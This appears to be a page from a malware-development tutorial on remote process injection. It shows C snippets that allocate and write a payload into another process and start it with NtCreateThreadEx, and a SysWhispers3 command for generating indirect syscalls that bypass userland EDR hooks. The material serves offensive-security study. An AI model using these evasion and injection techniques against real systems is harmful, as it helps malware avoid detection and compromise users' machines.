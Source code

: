 ```c
	if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

	return TRUE;
}

```

#### Payload Size & Rounding Up

Recall that `NtAllocateVirtualMemory` rounds up the value of `RegionSize` to be a multiple of 4096. Due to the rounding up of the size, one must be careful when using the same payload size variable when allocating memory and writing to memory as it can lead to more bytes being written than what was intended. This is why the code above uses separate size variables for `NtAllocateVirtualMemory` and `NtWriteVirtualMemory`.

The issue is demonstrated in the code snippet below.

```c
  // sPayloadSize is the payload's size (272 bytes)
  // Allocating memory 
  if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sPayloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
    return FALSE;
  }

  // sPayloadSize's value is now 4096
  // Writing the payload with sPayloadSize (NumberOfBytesToWrite) as 4096 instead of the original size
  if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0) {
    return FALSE;
  } 
```

### Implementation Using SysWhispers

The implementation here uses SysWhispers3 to bypass userland hooks via indirect syscalls. The following command is used to generate the required files for this implementation.

```c
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o SysWhispers -v
```

Three files are generated: `SysWhispers.h`, `SysWhispers.c` and `SysWhispers-asm.x64.asm`. The next step is to import these files into Visual Studio as noted in the [SysWhisper's Readme here](https://github.com/klezVirus/SysWhispers3#importing-into-visual-studio). The steps are demonstrated below.
